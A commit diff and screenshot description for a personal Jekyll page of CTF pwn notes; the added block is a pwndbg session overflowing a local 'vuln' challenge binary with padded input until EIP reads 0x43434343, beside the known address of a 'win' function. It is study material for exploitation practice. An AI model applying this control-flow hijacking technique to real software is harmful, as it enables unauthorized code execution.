

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 9688 px. Shown: the top 1372 px of the window at 91% size, without its empty margins (0-1044 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 10449 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -427,3 +427,28 @@ Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAX
 pwndbg> p win
 $1 = {<text variable, no debug info>} 0x8049336 <win>
 ```
+
+```
+pwndbg> run
+Starting program: /home/connor/Desktop/vuln
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/usr/lib/libthread_db.so.1".
+How Many Bytes will You Write Into the Buffer?
+> 100
+Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATESTBBBBBBBBBBBBBBBBCCCC
+Ok... Now Where's the Flag?
+
+Program received signal SIGSEGV, Segmentation fault.
+0x43434343 in ?? ()
+LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
+──────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────
+ EAX  0x0
+*EBX  0x42424242 ('BBBB')
+ ECX  0x0
+*EDX  0xf7e218a0 (_IO_stdfile_1_lock) ◂— 0x0
+*EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0x0
+*ESI  0x8049640 (__libc_csu_init) ◂— endbr32
+*EBP  0x42424242 ('BBBB')
+*ESP  0xffffd5f0 ◂— 0xffffff0a
+*EIP  0x43434343 ('CCCC')
+```
````
